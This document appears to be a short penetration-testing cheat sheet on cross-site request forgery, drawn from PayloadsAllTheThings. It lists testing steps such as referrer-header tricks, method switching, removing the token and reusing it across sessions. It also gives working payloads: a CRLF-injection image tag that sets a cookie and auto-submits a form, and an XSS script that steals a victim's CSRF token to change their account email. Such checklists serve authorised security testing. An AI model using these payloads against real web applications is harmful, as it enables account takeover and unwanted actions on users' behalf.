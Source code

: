 # Cross-site request forgery (CSRF)
> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP
## Test first:
Referrer: https://example.com
if:
"Invalid referrer header" so:
```js
Referrer-Policy: unsafe-url
```
else:
"Invalid referrer validation" so:
```html
<meta name="referrer" content="no-referrer">
```
## Then:
1) csrf without csrf protection.
2) csrf validation depends on request method  - Change post to get.
3) csrf delete csrf parameter and value.
4) csrf - drop request and test the token in other session.
5) csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key.
```html
<img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
```
6) csrf + xss
```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script> 
```


## Referrer:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection
